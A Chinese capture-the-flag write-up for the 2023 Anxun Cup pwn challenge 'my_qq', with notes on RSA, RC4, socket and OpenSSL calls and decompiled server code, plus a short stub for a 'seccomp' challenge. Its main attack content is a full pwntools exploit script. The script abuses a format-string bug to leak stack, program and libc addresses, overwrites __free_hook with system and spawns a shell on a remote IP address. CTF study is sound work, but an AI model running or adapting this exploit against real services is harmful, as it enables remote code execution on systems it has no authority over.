# 2023 安洵杯 - PWN - [my_qq]


[https://ycznkvrmzo.feishu.cn/docx/G17xduF91omE5nxgkgfc1W93nqb](https://ycznkvrmzo.feishu.cn/docx/G17xduF91omE5nxgkgfc1W93nqb)


## 环境搭建
直接运行会报错，提示缺少很多共享库，逐个下载即可。

## 相关知识

## RSA 公钥加密
RSA 公钥加密的具体实现包括以下步骤：

1. 生成密钥对：使用 RSA 算法生成一对密钥，包括公钥和私钥。通常使用密钥生成算法（如 RSA 密钥生成算法）来生成随机且安全的密钥对。私钥应当保密，而公钥可以分享给他人。

2. 加密数据：将待加密的数据转换为数字形式，并用公钥进行加密。通常使用公钥加密算法（如 RSA 加密算法）来执行加密操作。加密过程涉及数学运算，用公钥上的指数对原始数据进行计算，得到加密结果。

3. 发送密文：加密后的数据称为密文，可以通过不安全的通信信道发送给他人。即使在传输过程中，密文也不会暴露原始数据。

4. 解密数据：只有私钥的持有者才能用私钥执行解密操作，把密文还原为原始数据。通过私钥解密算法（如 RSA 解密算法），使用私钥上的指数进行数学运算，得到原始数据。

需要注意的是，RSA 公钥加密通常通过调用特定密码库（如 OpenSSL、Crypto++ 等）提供的相应函数和方法来实现。这些库提供了 RSA 算法及相关加密函数的实现，简化了加解密操作。

实现 RSA 公钥加密需要熟悉相关的密码库及其 API，并理解 RSA 算法的数学原理和操作步骤。在实际应用中，我们通常使用现成的密码库来实现 RSA 公钥加密，而不是手动实现算法逻辑。
## 对称加密算法
对称加密算法是一种加密和解密使用同一个密钥的加密算法。在对称加密中，发送方用密钥加密数据，接收方用同一个密钥把加密数据解密回原始数据。

对称加密算法的一般步骤如下：

1. 生成密钥：首先需要生成一个用于加密和解密数据的密钥。对称加密算法的加密和解密使用同一个密钥，因此必须保证密钥的安全。

2. 加密数据：发送方用密钥把原始数据转换为加密数据。加密过程涉及用密钥对数据进行数学运算，得到加密结果。加密算法的具体步骤和数学原理取决于所使用的具体对称加密算法。

3. 发送密文：发送方把加密数据（密文）发送给接收方，并确保其安全传输。即使密文在传输过程中被截获，也不会暴露原始数据，因为只有持有密钥的人才能解密数据。

4. 解密数据：接收方用同一个密钥解密密文，将其还原为原始数据。解密算法使用相同的密钥和逆向的数学运算来恢复原始数据。

5. 对称加密算法的关键在于保护密钥的安全。只有密钥的持有者才能解密加密数据，因此必须确保只有授权人员才能访问密钥。

常见的对称加密算法有 DES（数据加密标准）、AES（高级加密标准）、3DES（三重数据加密标准）等。这些算法具有不同的密钥长度和安全级别，可以根据实际需求选择合适的算法。

需要注意的是，虽然对称加密算法在安全性和效率上具有优势，但密钥的安全分发与管理是一个重要问题。密钥的保护和完善的密钥管理是使用对称加密算法保证加密通信安全的关键。
## 相关库函数
###    signal(14, handler);
这行代码使用 signal 函数设置一个信号处理函数。

signal 函数的原型如下：

void (*signal(int signum, void (*handler)(int)))(int);
 
- 第一个参数 signum 指定要处理的信号编号，这里是 14，代表 SIGALRM 信号，即定时器到期信号。

- 第二个参数 handler 指定信号处理函数的地址，这里是 handler 函数。

因此，这行代码的作用是把 SIGALRM 信号与 handler 函数关联起来，这样当定时器到期时，操作系统就会调用 handler 函数来处理该信号。


### BIO_s_mem()

BIO_s_mem() 函数是 OpenSSL 库中用于创建“内存 BIO”的函数。通俗地讲，可以把它看作在内存中创建一块虚拟的存储空间，你可以像操作文件一样往里面写数据或从中读数据，只不过这个“文件”并不真正存在于磁盘上，而是存在于内存中。

打个简单的比方：如果你想在一张纸上写点东西给别人看，但又不希望这张纸存在（可能出于安全考虑，或者只是想临时存放一些信息），你可以想象在空中写字，别人可以直接从空中读到这些字，然后这些字就消失了。内存 BIO 本质上就是在程序的内存中做这件事。

举个例子：

假设你正在开发一个应用，需要生成一些敏感数据，比如一份报告或一份授权证书，但你不希望这些数据被保存到文件系统中。你可以这样做：

使用 BIO_s_mem() 创建一个内存 BIO。
把敏感数据写入这个内存 BIO。
需要读取或传递这些敏感数据时，从这个内存 BIO 中读取。
用完之后丢弃内存 BIO，因为它从一开始就只存在于内存中，所以不会在磁盘上留下任何痕迹。
下面是一段说明上述步骤的伪代码：

```c

// 创建内存BIO
BIO *bio = BIO_new(BIO_s_mem());

// 向内存中写数据
BIO_write(bio, "敏感数据", strlen("敏感数据"));

// 需要的时候从内存中读数据
char data[1024];
int len = BIO_read(bio, data, sizeof(data));

// 将敏感数据传递给另一个函数
process_data(data, len);

// 完成操作，释放内存BIO
BIO_free(bio);
```

 
在这个例子中，我们先创建了一个内存 BIO，然后往里面写入一些数据（这里是文本“敏感数据”），需要数据时再从 BIO 中读出来，处理完后释放内存 BIO。这样，敏感数据从未被写入硬盘，其生命周期完全限制在程序的内存中。
### socker_addr 与 socker

```c
s.sa_family = 2; - 这里设置s结构的sa_family字段为2，这通常代表AF_INET，即使用IPv4地址族。

*(_DWORD *)&s.sa_data[2] = inet_addr("0.0.0.0"); - 这行代码将IP地址0.0.0.0转换为网络字节序，并赋值给s.sa_data数组的第2个元素开始的位置。在大多数架构中，_DWORD代表双字(32位)，因此这相当于给sockaddr_in的sin_addr字段赋值。

*(_WORD *)s.sa_data = htons(0x2710u); - 这行代码使用htons函数（主机到网络短整型的转换）将端口10000（0x2710在十六进制中）转换为网络字节序，并将其存储在s.sa_data的开始位置，这通常对应于sockaddr_in结构的sin_port字段。

fd = socket(2, 1, 6); - 使用socket函数创建一个套接字。参数2再次表示AF_INET，参数1表示SOCK_STREAM，表示这是TCP套接字，参数6表示使用TCP协议（在大多数系统的/etc/protocols文件中，TCP的值为6）。

错误检查 - 下面的三个if语句分别检查socket、bind和listen函数调用的返回值。如果任何一个函数失败，将使用perror打印错误消息，并调用exit终止程序。

if ( bind(fd, &s, 0x10u) == -1 ) - 这行代码尝试将上面创建的套接字绑定到某个地址和端口上。第三个参数是套接字地址结构的长度，0x10u通常是16，这可能意味着s结构是一个类似于sockaddr_in的结构体。在现代代码中，我们通常会使用sizeof(struct sockaddr_in)。

if ( listen(fd, 5) == -1 ) - 这行代码将创建的套接字设置为监听模式，并且能够允许最多5个挂起连接排队。

server_listen_port = ntohs(*(uint16_t *)s.sa_data); - 这行代码将s.sa_data开头的两个字节（采用网络字节序）转换为主机字节序，得到服务器监听的端口号，并赋值给server_listen_port变量。在sockaddr_in结构中，这对应于sin_port字段。
```

###  accept
arg = accept(fd, &addr, &addr_len); - 调用 accept 函数，其作用是从监听套接字（fd）的队列中接受第一个挂起的连接请求。接受之后，它会创建一个专门用于与客户端通信的新套接字（现在由变量 arg 表示）。第二个参数 &addr 是指向 sockaddr 结构体的指针，用于接收连接方的地址信息；第三个参数 &addr_len 是指向一个变量的指针，该变量包含上述结构体的大小，函数返回时 &addr_len 会被设置为地址的实际大小。
### pthread_create
if ( pthread_create(newthread, 0LL, start_routine, &accept_get_socker) ) - pthread_create 函数用于创建一个新线程。参数 newthread 是一个指针，用于接收新线程的线程 ID；参数 0LL 是线程属性指针，这里传入 NULL（对应 0LL），表示使用默认线程属性；start_routine 是一个函数指针，作为新线程要执行的代码的入口；最后一个参数是传给 start_routine 函数的参数，这里是指向 accept_get_socket 的指针。

### pthread_detach
pthread_detach(newthread[0]); - pthread_detach 函数用于分离线程 newthread[0]（这说明 newthread 是一个线程标识符数组）。分离线程意味着让操作系统在该线程终止时立即回收分配给它的所有资源，这样就不需要其他线程去 join 它（即不需要其他线程显式收集已终止线程的信息）。分离线程有助于防止线程终止后资源未被回收而导致的内存泄漏（即所谓的僵尸线程）。

### recv(accept_get_socker, buf, 4uLL, 0);
这一行调用 recv 函数，从 accept_get_socker（很可能是 accept 得到的套接字描述符）所代表的客户端连接接收数据。该函数尝试读取 4 字节（4uLL 是表示四个字节的 unsigned long long 字面量）数据到缓冲区 buf 中，以阻塞模式接收数据（标志 0 表示阻塞模式）。

###  start_routine(int *accept_get_socker_place)

```c
void __fastcall __noreturn start_routine(int *accept_get_socker_place)
{
  int accept_get_socker; // [rsp+1Ch] [rbp-14h] BYREF
  int get_from_client_4_bytes; // [rsp+20h] [rbp-10h]
  char get_from_client_4_bytes_buf[4]; // [rsp+24h] [rbp-Ch] BYREF
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  accept_get_socker = *accept_get_socker_place;
  while ( 1 )
  {
    get_from_client_4_bytes = recv(accept_get_socker, get_from_client_4_bytes_buf, 4uLL, 0);
    if ( get_from_client_4_bytes == -1 )
      break;
    puts(get_from_client_4_bytes_buf);
    if ( !strcmp(get_from_client_4_bytes_buf, "yes") )
    {
      if ( client_logo(&accept_get_socker) == 0xFFFFFFFF )
      {
        perror("handle_client_logon");
        exit(-1);
      }
    }
    else if ( client_register(&accept_get_socker) == 0xFFFFFFFF )
    {
      perror("handle_client_register");
      exit(-1);
    }
  }
  perror("response");
  exit(-1);
}
```


```c
__int64 sub_360E()
{
  qword_7500 = mysql_init(0LL);
  if ( mysql_real_connect(qword_7500, "127.0.0.1", "admin", "test123", "my_qq", 0LL, 0LL, 0LL) )
  {
    puts("Database connection successful");
    return 0LL;
  }
  else
  {
    perror("mysql_connect");
    puts("error");
    return 0xFFFFFFFFLL;
  }
}
```

```c
上述代码是用于建立与MySQL数据库的连接的C语言片段。以下是该代码的逐行解释：

qword_7500 = mysql_init(0LL);
 
这行代码看起来是在调用mysql_init函数以初始化一个MySQL连接对象。mysql_init函数通常用来分配、初始化MySQL对象并返回一个新的连接句柄。0LL是一个长整形的字面量，表示用NULL指针来初始化这个对象，它告诉mysql_init函数去分配和初始化新的对象。在C语言中，mysql_init(NULL)是较为常见的调用方式。qword_7500这个变量名可能是某种反编译软件自动生成的，并不符合一般的命名惯例。
if ( mysql_real_connect(qword_7500, "127.0.0.1", "admin", "test123", "my_qq", 0LL, 0LL, 0LL) )
{
  puts("Database connection successful");
  return 0LL;
}
 
这个代码块试图通过调用mysql_real_connect函数来建立一个实际的数据库连接。这个函数接收多个参数：
qword_7500: MySQL连接句柄，由mysql_init函数分配并初始化。
"127.0.0.1": 数据库服务器的主机地址，在这里是本机地址。
"admin": MySQL数据库的用户名。
"test123": 用于登录数据库的密码。
"my_qq": 要连接的数据库名称。
0LL: 服务器的端口号，这里用零表示使用默认端口。
0LL: UNIX套接字，使用默认值通常写作NULL或者0。
0LL: 客户端标志，指定在连接时使用的不同选项，这里也是使用零表示使用默认值。
```
## send(accept_get_socker, buf, n, 0)
- accept_get_socker：这个套接字是通过 accept 函数从监听套接字得到的，通常用于与客户端通信。

- buf：指向存放待发送数据的缓冲区的指针。该缓冲区包含要发送给对端的数据。

- n：表示本次调用要发送的字节数。

- 0：send 操作使用的标志，这里 0 表示不要求任何特殊的发送行为（例如不要求非阻塞，也不要求发送操作的高优先级）。
## time

```c
  time_t timer; // [rsp+0h] [rbp-120h] BYREF
  struct tm *tp; // [rsp+8h] [rbp-118h]
  char s[264]; // [rsp+10h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+118h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  time(&timer);
  tp = localtime(&timer);
  strftime(s, 0x100uLL, "%Y-%m-%d %H:%M:%S", tp);
  printf("Current time: %s\n", s);
```

定义了一个 time_t 类型的变量 timer，通常用于存储系统时间（自 1970 年 1 月 1 日以来的秒数）。
定义了一个 struct tm 类型的指针变量 tp。struct tm 是 C 标准库中的结构体，用于存储详细的时间和日期信息，如年、月、日、时、分、秒等。
定义了一个长度为 264 字节的字符数组 s，用于存储格式化后的日期时间字符串。
定义了一个无符号 64 位整数 v4，用于获取当前函数的栈帧基指针，这是一种用于检测栈溢出的常见安全措施。这行代码特定于 x86_64 架构，并依赖于特定的编译器实现。
接下来是主要的程序逻辑：

使用 time 函数更新 timer 变量，获取当前系统时间。
调用 localtime 函数把 timer 变量的值转换为本地时间，并把结果存入 tp 所指向的 struct tm 结构体中。
使用 strftime 函数把 tp 所指向的 struct tm 结构体中的时间格式化为“年-月-日 时:分:秒”的格式，并把格式化后的字符串存入数组 s。0x100 是格式化字符串的最大长度，即 256 字节。
使用 printf 函数打印出包含当前时间的字符串。


##  本题的通信流程（仅供参考）
1. 生成密钥对：客户端和服务端都需要生成各自的 RSA 密钥对，每对都包括一个公钥和一个私钥。公钥是公开的，可以安全地分享给任何人；私钥是保密的，不能泄露。
2. 交换公钥：客户端和服务端交换各自的公钥。例如，用户注册时，服务端把自己的公钥发给客户端，客户端也可以生成密钥对并把自己的公钥发给服务端，用于后续的加密通信。
3. 账户注册：用户在客户端创建账户时，客户端提示用户输入用户名和密码。客户端用服务端的公钥加密密码，然后把加密后的用户名和密码发送给服务端。
4. 存储加密信息：服务端收到加密信息后，用自己的私钥解密。之后，服务端把用户名和密码哈希（通常还会加盐等额外安全措施）存入数据库。
5. 账户登录：用户尝试登录时，客户端再次用服务端的公钥加密用户的用户名和密码，然后把这些加密凭据发送给服务端。
6. 身份验证：服务端用自己的私钥解密收到的信息，并与数据库中存储的哈希值进行比较以验证身份。
7. 验证成功后，服务端与客户端之间的后续通信可以选择使用数字签名来保证消息来源的可靠性。
8. 服务端与客户端通过某种交换方式得到相同的 RC4 密钥，之后的所有通信都用 RC4 加密。


## 逆向结果 

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  uint16_t v4; // ax
  unsigned int v6; // ebx
  char *v7; // rax
  unsigned int client_fd; // [rsp+10h] [rbp-60h] MAPDST BYREF
  socklen_t addr_len; // [rsp+14h] [rbp-5Ch] BYREF
  int i; // [rsp+18h] [rbp-58h]
  int server_fd; // [rsp+1Ch] [rbp-54h]
  pthread_t newthread; // [rsp+20h] [rbp-50h] BYREF
  void *v13; // [rsp+28h] [rbp-48h]
  struct sockaddr_in s; // [rsp+30h] [rbp-40h] BYREF
  struct sockaddr_in addr; // [rsp+40h] [rbp-30h] BYREF
  unsigned __int64 v16; // [rsp+58h] [rbp-18h]

  v16 = __readfsqword(0x28u);
  client_fd = -1;
  setup();
  alarm(30u);
  signal(SIGALRM, (__sighandler_t)handler);
  if ( read_pem() == -1 )
    exit(-1);
  v3 = BIO_s_mem();
  v13 = BIO_new(v3);
  PEM_write_bio_RSA_PUBKEY(v13, pbkey);
  qword_7548 = (int)BIO_ctrl(v13, 10LL, 0LL, 0LL);
  BIO_free(v13);
  pthread_mutex_init(&mutex, 0LL);
  memset(&s, 0, sizeof(s));
  s.sin_family = 2;
  s.sin_addr.s_addr = inet_addr("0.0.0.0");
  s.sin_port = htons(10000u);
  server_fd = socket(AF_INET, SOCK_STREAM, 6);
  if ( server_fd == -1 )
  {
    perror("socket");
    exit(-1);
  }
  if ( bind(server_fd, (const struct sockaddr *)&s, 0x10u) == -1 )
  {
    perror("bind");
    exit(-1);
  }
  if ( listen(server_fd, 5) == -1 )
  {
    perror("listen");
    exit(-1);
  }
  v4 = ntohs(s.sin_port);
  printf("Server is listening on port %d........\n", v4);
  while ( 1 )
  {
    while ( 1 )
    {
      addr_len = 16;
      client_fd = accept(server_fd, (struct sockaddr *)&addr, &addr_len);
      if ( client_fd != -1 )
        break;
      perror("accept");
    }
    v6 = ntohs(addr.sin_port);
    v7 = inet_ntoa(addr.sin_addr);
    printf("Client connected: %s:%d on sock %d\n", v7, v6, client_fd);
    pthread_mutex_lock(&mutex);
    for ( i = 0; i <= 19 && conns[i]; ++i )
      ;
    if ( i != 20 && !conns[i] )
    {
      conns[i] = (Conn *)malloc(0x30uLL);
      conns[i]->client_fd = client_fd;
      ++conn_count;
    }
    pthread_mutex_unlock(&mutex);
    if ( pthread_create(&newthread, 0LL, (void *(*)(void *))start_routine, &client_fd) )
    {
      perror("pthread_create");
      exit(-1);
    }
    pthread_detach(newthread);
  }
}

void __fastcall __noreturn start_routine(void *arg)
{
  int client_fd; // [rsp+1Ch] [rbp-14h] BYREF
  int v2; // [rsp+20h] [rbp-10h]
  char buf[4]; // [rsp+24h] [rbp-Ch] BYREF
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  client_fd = *(_DWORD *)arg;
  while ( 1 )
  {
    v2 = recv(client_fd, buf, 4uLL, 0);
    if ( v2 == -1 )
      break;
    puts(buf);
    if ( !strcmp(buf, "yes") )
    {
      if ( handle_client_logon(&client_fd) == -1 )
      {
        perror("handle_client_logon");
        exit(-1);
      }
    }
    else if ( handle_client_register(&client_fd) == -1 )
    {
      perror("handle_client_register");
      exit(-1);
    }
  }
  perror("response");
  exit(-1);
}

int __fastcall handle_client_logon(int *arg)
{
  char v2[1032]; // [rsp-410h] [rbp-1880h] BYREF
  int *v3; // [rsp+8h] [rbp-1468h]
  int client_fd; // [rsp+18h] [rbp-1458h] BYREF
  int i; // [rsp+1Ch] [rbp-1454h]
  int v6; // [rsp+20h] [rbp-1450h]
  int v7; // [rsp+24h] [rbp-144Ch]
  __int64 rsa_ctx; // [rsp+28h] [rbp-1448h]
  char v9[1032]; // [rsp+30h] [rbp-1440h] BYREF
  char rc4key[32]; // [rsp+440h] [rbp-1030h] BYREF
  char s[16]; // [rsp+460h] [rbp-1010h] BYREF
  char name[1024]; // [rsp+860h] [rbp-C10h] BYREF
  char rsa_signature[1024]; // [rsp+C60h] [rbp-810h] BYREF
  char s2[1032]; // [rsp+1060h] [rbp-410h] BYREF
  unsigned __int64 v15; // [rsp+1468h] [rbp-8h]

  v3 = arg;
  v15 = __readfsqword(0x28u);
  client_fd = *arg;
  v6 = recv(client_fd, name, 0x400uLL, 0);
  if ( v6 == -1 )
  {
    perror("login_recv_name_and_passwordhash");
    return -1;
  }
  v7 = query_database(&client_fd, name, rsa_signature);
  if ( v7 == -1 )
  {
    perror("query_database");
    return -1;
  }
  if ( exchange_public_key(&client_fd, s2) == -1 )
  {
    perror("exchange_public_key");
    return -1;
  }
  if ( strcmp(rsa_signature, s2) || v7 != 1 )
  {
    memset(s, 0, 0x400uLL);
    sprintf(s, "0Login failed, account or password error  !");
    puts(s);
    if ( send(client_fd, s, 0x400uLL, 0) != -1 )
      exit(-1);
    goto LABEL_10;
  }
  show_time();
  printf("%s has successfully logged in on \n", name);
  memset(s, 0, 0x400uLL);
  sprintf(s, "1Login succeess !!");
  puts(s);
  if ( send(client_fd, s, 0x400uLL, 0) == -1 )
  {
LABEL_10:
    perror("send");
    return -1;
  }
  qmemcpy(v2, v9, sizeof(v2));
  if ( Transfer_RC4_key(&client_fd, rsa_ctx, rc4key, v2[0]) != -1 )
  {
    puts("Transfer_RC4_key SUCCESS");
    do
      qmemcpy(v2, v9, sizeof(v2));
    while ( login_Decrypting_messages_verifying_signatures(&client_fd, rsa_ctx, rc4key) != -1 );
    perror("login_Decrypting_messages_verifying_signatures");
    pthread_mutex_lock(&mutex);
    for ( i = 0; i < conn_count; ++i )
    {
      if ( conns[i]->client_fd == client_fd )
      {
        RSA_free(conns[i]->rsa_ctx);
        free(conns[i]);
        free(conns[i]->decoded_msg);
        --conn_count;
      }
    }
    pthread_mutex_unlock(&mutex);
    close(client_fd);
    exit(-1);
  }
  perror("Transfer_RC4_key");
  return -1;
}

int __fastcall login_Decrypting_messages_verifying_signatures(int *fd_ptr, __int64 rsa_ctx, char *rc4key)
{
  int v3; // eax
  unsigned __int64 v4; // rax
  void *v5; // rsp
  int v6; // eax
  int result; // eax
  size_t v8; // rax
  size_t v9; // rax
  int v10; // er9
  size_t v11; // rax
  Conn *v12; // rbx
  char v13[1032]; // [rsp-408h] [rbp-14D0h] BYREF
  __int64 v14[3]; // [rsp+8h] [rbp-10C0h] BYREF
  int i; // [rsp+3Ch] [rbp-108Ch]
  int fd; // [rsp+40h] [rbp-1088h]
  int v20; // [rsp+44h] [rbp-1084h]
  __int64 v21; // [rsp+48h] [rbp-1080h]
  char *buf; // [rsp+50h] [rbp-1078h]
  __int64 v23[130]; // [rsp+58h] [rbp-1070h] BYREF
  char output[48]; // [rsp+468h] [rbp-C60h] BYREF
  char s[1024]; // [rsp+498h] [rbp-C30h] BYREF
  char dest[2048]; // [rsp+898h] [rbp-830h] BYREF
  unsigned __int64 v27; // [rsp+10A0h] [rbp-28h]

  v27 = __readfsqword(0x28u);
  fd = *fd_ptr;
  v3 = RSA_size(prkey) + 1024;
  v21 = v3 - 1LL;
  v14[0] = v3;
  v14[1] = 0LL;
  v4 = 16 * ((v3 + 15LL) / 0x10uLL);
  while ( v14 != (__int64 *)((char *)v14 - (v4 & 0xFFFFFFFFFFFFF000LL)) )
    ;
  v5 = alloca(v4 & 0xFFF);
  if ( (v4 & 0xFFF) != 0 )
    *(__int64 *)((char *)&v14[-1] + (v4 & 0xFFF)) = *(__int64 *)((char *)&v14[-1] + (v4 & 0xFFF));
  buf = (char *)v14;
  v6 = RSA_size(prkey);
  v20 = recv(fd, buf, v6 + 1024, 0);
  if ( v20 == -1 )
  {
    perror("recv_error");
    result = -1;
  }
  else if ( v20 )
  {
    printf("Client%d : %s\n", (unsigned int)fd, buf);
    memset(s, 0, sizeof(s));
    memset(dest, 0, sizeof(dest));
    v8 = strlen(buf);
    memcpy(dest, buf, v8);
    printf("hex_rc4_msg %s\n", dest);
    unhex(dest, s);
    printf("The rc4_msg is   %s\n", s);
    v9 = strlen(rc4key);
    hex(rc4key, v9, output);
    printf("The key is %s\n", output);
    RC4_set_key(v23, 17LL, rc4key);
    v10 = strlen(s);
    qmemcpy(v13, v23, sizeof(v13));
    rc4_decrypt(s, v10, v13[0]);
    printf("The decode  rc4_msg is %s\n", s);
    for ( i = 0; i < conn_count; ++i )
    {
      if ( fd == conns[i]->client_fd )
      {
        if ( !conns[i]->decoded_msg )
        {
          v11 = strlen(s);
          v12 = conns[i];
          v12->decoded_msg = (char *)malloc(v11);
        }
        strcpy(conns[i]->decoded_msg, s);
        printf(conns[i]->decoded_msg);
        puts(" ");
      }
    }
    result = 0;
  }
  else
  {
    printf("Client disconnected: %d\n", (unsigned int)fd);
    result = -1;
  }
  return result;
}


```
## 思路

```c
    for ( i = 0; i < dword_704C; ++i )
    {
      if ( fd == *(_DWORD *)qword_7460[i] )
      {
        if ( !*(_QWORD *)(qword_7460[i] + 40LL) )
        {
          v11 = strlen(s);
          v12 = qword_7460[i];
          *(_QWORD *)(v12 + 40) = malloc(v11);
        }
        strcpy(*(char **)(qword_7460[i] + 40LL), s);
        printf(*(const char **)(qword_7460[i] + 40LL)); //格式化字符串
        puts(" ");
      }
    }
```

```c
    while ( (unsigned int)sub_4407(&fd, v8, v10) != -1 );
    perror("login_Decrypting_messages_verifying_signatures");
    pthread_mutex_lock(&mutex);
    for ( i = 0; i < dword_704C; ++i )
    {
      if ( *(_DWORD *)qword_7460[i] == fd )
      {
        RSA_free(*(_QWORD *)(qword_7460[i] + 8LL));
        free((void *)qword_7460[i]);
        free(*(void **)(qword_7460[i] + 40LL)); // free("/bin/sh")
        --dword_704C;
      }
    }
```

login_Decrypting_messages_verifying_signatures 中有一个明显的格式化字符串漏洞，唯一的问题是如何与程序交互走到这里，这只是一个逆向问题。解决逆向问题后，照抄交互逻辑，然后利用格式化字符串获取当前函数的返回地址来计算程序基址，再读 GOT 表得到 libc 基址，然后写 __free_hook，最后布置好 shell 命令并断开网络流连接，主程序的连接就能拿到 shell。

```python
#!/usr/bin/env python3

from pwn import *
from Crypto import Random
from Crypto.PublicKey import RSA
from Crypto.Cipher import ARC4

pbkey_path = './pb.pem'
prkey_path = './pr.pem'
try:
    pbkey = RSA.importKey(open(pbkey_path, 'rb').read())
    prkey = RSA.importKey(open(prkey_path, 'rb').read())
except Exception as e:
    # print(e)
    prkey = RSA.generate(2048, Random.new().read)
    pbkey = prkey.public_key()
    open(pbkey_path, 'wb').write(pbkey.export_key('PEM'))
    open(prkey_path, 'wb').write(prkey.export_key('PEM'))

def new_client():
    # 47.108.206.43:34284
    p = remote('47.108.206.43', 34284)
    server_p.recvuntil(b'Client connected: ')
    server_p.recvuntil(b' on sock ')
    fd = int(server_p.recvline())
    return p, fd

def recvall(p):
    data = b''
    while True:
        _data = p.recv(timeout=0.5)
        if not _data: break
        data += _data
    return data

def exchange_public_key(p, pbkey):
    global s_pbkey
    server_p.recvuntil(b'server key is ')
    server_p.recvuntil(b'-----END PUBLIC KEY-----\n')
    s_pbkey = RSA.importKey(recvall(p))
    p.send(pbkey.export_key('PEM'))
    assert server_p.recvline().startswith(b'recv client key is ')
    server_p.recvuntil(b'-----END PUBLIC KEY-----')

def register(p, name, pw_sha256_hash, pbkey):
    p.send(b'no\x00\x00')
    server_p.recvuntil(b'no\n')
    p.send(name.ljust(16, b'\x00') + pw_sha256_hash.ljust(64, b'?'))
    assert server_p.recvline() == b'recv_name_and_hash_psw\n'
    exchange_public_key(p, pbkey)
    
    server_p.recvuntil(name + b'\n')
    server_p.recvuntil(pw_sha256_hash.ljust(64, b'?') + b'\n')
    assert p.recv(1) == b'1'
    server_p.recvuntil(b' register was successful!\n')
    p.recvuntil(b' register was successful!')

def login(p, name, pw_sha256_hash, pbkey):
    global s_pbkey
    p.send(b'yes\x00')
    server_p.recvuntil(b'yes\n')
    p.send(name.ljust(16, b'\x00') + pw_sha256_hash.ljust(64, b'?'))
    exchange_public_key(p, pbkey)
    assert p.recv(0x400).startswith(b'1Login succeess !!')
    server_p.recvuntil(b'1Login succeess !!\n')

    recvall(p)
    server_p.recvuntil(b'RC4 key is ')
    rc4key = bytes.fromhex(server_p.recvline().decode())
    server_p.recvuntil(b'Transfer_RC4_key SUCCESS\n')
    assert len(rc4key) == 17 and rc4key.index(b'\x00') == 16
    return rc4key

def session(p, rc4key, data, pad_to=0, extra=b''):
    assert b'\x00' not in data, data
    data += b'\x00'
    data = ARC4.new(rc4key).encrypt(data).hex().encode()
    if pad_to:
        assert len(data) < pad_to, (len(data), pad_to)
        data = data.ljust(pad_to, b'\x00')
    data += extra
    p.send(data)
    server_p.recvuntil(b'The decode  rc4_msg is')
    server_p.recvline()
    return server_p.recvuntil(b' \n', drop=True)

# context.log_level = 'debug'
libc = ELF('./libc-2.31.so', checksec=False)
malloc_got = 0x6f50

# 47.108.206.43:20468
server_p = remote('47.108.206.43', 20468)
server_p.recvuntil(b'Server is listening on port 10000........\n')

p1, fd1 = new_client()
print('fd:', fd1)

# register(p1, b'd', b'a', pbkey)
rc4key = login(p1, b'd', b'a', pbkey)
print('rc4key:', rc4key.hex())

stack_addr = int(session(p1, rc4key, b'%p'), 16)
print('stack:', hex(stack_addr))
# 0 -> 6
elf_base = u64(session(p1, rc4key, b'%15$s', 9 * 8, p64(stack_addr + 0x400 + 0x800 + 0x30 + 8)) + b'\x00\x00') - 0x3208
print('elf:', hex(elf_base))

libc_base = u64(session(p1, rc4key, b'%15$s', 9 * 8, p64(elf_base + malloc_got)) + b'\x00\x00') - libc.sym['malloc']
print('libc:', hex(libc_base))

for i in range(6):
    print(session(p1, rc4key, b'%' + str(((libc_base + libc.sym['system']) >> (8 * i)) & 0xff).encode() + b'c%15$hhn', 9 * 8, p64(libc_base + libc.sym['__free_hook'] + i)))

session(p1, rc4key, b'/bin/sh')

p1.close()

server_p.interactive()
```
## 还有一些地方没搞懂，本地环境也还有问题，有机会再回来试试。


# 2023 安洵杯 - PWN - [seccomp]


## 检查

## 准备
在当前文件夹或其他地方创建一个 flag 文件，内容随意 :smile:


### 说明
记得同时把动态链接器和动态库文件也设置为 777 权限，否则文件无法成功执行

> 非常感谢 chamd5 战队 venom 组的 Zhehu 和 L1n3 的帮助


